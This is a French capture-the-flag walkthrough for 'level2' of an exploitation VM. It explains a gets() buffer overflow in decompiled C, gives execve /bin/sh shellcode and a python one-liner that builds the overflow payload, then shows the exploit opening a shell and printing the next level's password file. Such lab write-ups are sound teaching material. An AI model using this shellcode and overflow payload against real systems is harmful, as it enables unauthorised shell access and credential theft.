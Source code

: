 # LEVEL 2
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level3`. 

1. Une fois connecté à la VM sur le `level2`, l'on retrouve un fichier `level2` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

    ```sh
    > scp -P 4242 level2@127.0.0.1:level2 /path/on/machine/host
    ```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <sys/types.h>

	int p(void)
	{
		unsigned int unaff_retaddr;
		char local_50[76];

		fflush(stdout);
		gets(local_50);

		if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
			printf("(%p)\n", unaff_retaddr);
			return EXIT_FAILURE;
		}

		puts(local_50);
		strdup(local_50);

		return EXIT_SUCCESS;
	}

	int main(void)
	{
		return p();
	}
	```
	
    À partir de ce désassemblage, on en déduit que le programme contient 2 fonctions : la fonction `main` et la fonction `p` qui, tout deux, ne prennent aucun paramètre.

	La fonction `main` appelle tout simplement la fonction `p` tandis que la fonction `p` lit des entrées utilisateur dans `local_50` en utilisant la fonction `gets` et vérifie si `unaff_retaddr` a une partie spécifique définie. Si c'est le cas, elle imprime `unaff_retaddr` et termine le programme. Sinon, la fonction `p` utilise `puts` pour imprimer `local_50` et `strdup` pour allouer de la mémoire pour `local_50`.

	Comme dans le niveau inférieur, ce code est vulnérable à une attaque de dépassement de tampon en raison de l'utilisation de `gets`, mais comporte tout de même une détection d'attaque potentielle que l'on va devoir by-pass.

3. Après cette recherche, l'on peut trouver un code shellcraft spécifiquement utilisé pour exploiter des vulnérabilités sur la fonctions `gets`. Plus précisément, le shellcode ci-dessous permet d'effectuer un appel système pour exécuter `/bin/sh` et de terminer ensuite le processus avec un code de sortie 1. Cela permettrait d'exécuter un shell interactif et pouvoir obtenir le mot de passe pour le niveau suivant.

    Code shellcraft : 
    ```sh
	"\x31\xc0\x50\x68\x2f\x2f\x73"
	"\x68\x68\x2f\x62\x69\x6e\x89"
	"\xe3\x89\xc1\x89\xc2\xb0\x0b"
	"\xcd\x80\x31\xc0\x40\xcd\x80"
	```

	Lien : https://shell-storm.org/shellcode/files/shellcode-811.html

4. De fait, nous allons générer une chaine de charactère que l'on stock dans `/tmp/payload2`. Cette chaîne de caractère contient en premier lieu le code shellcraft mentionné ci-dessus, `52 octets` de NOP (no-operation) qui garantissent que l'adresse écraser est correctement alignée ainsi que l'adresse mémoire `0x0804a008` en format little endian du `malloc` utilisé dans `strdup` (trouvé en utilisant `gdb` sur l'exécutable `level2`).
    
	```sh
	> python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90" * 52 + "\x08\xa0\x04\x08"' > /tmp/payload2
	```

5. En suite, l'on va utiliser la chaîne de caractère précédemment généré afin d'exploiter les vulnérabilités de l'exécutable `level2`. En exploitant `level2`, on remplace ainsi l'adresse de retour par le code shellcraft, nous permettant d'ouvrir un shell interactif et pouvoir obtenir le mot de passe pour le niveau suivant (au passage, on lance la commande `whoami` pour s'assurer que l'utilisateur a bien changé de `level2` à `level3`).
    
	```sh
	> cat /tmp/payload2 - | ./level2
	> whoami
	level3
	> cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```

6. On peut à présent passer au niveau supérieur en exécutant la commande `su level3` et en y spécifiant le mot de passe qui vient d'être trouvée. 

    ```sh
    > su level3
    Password : 
	> 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```



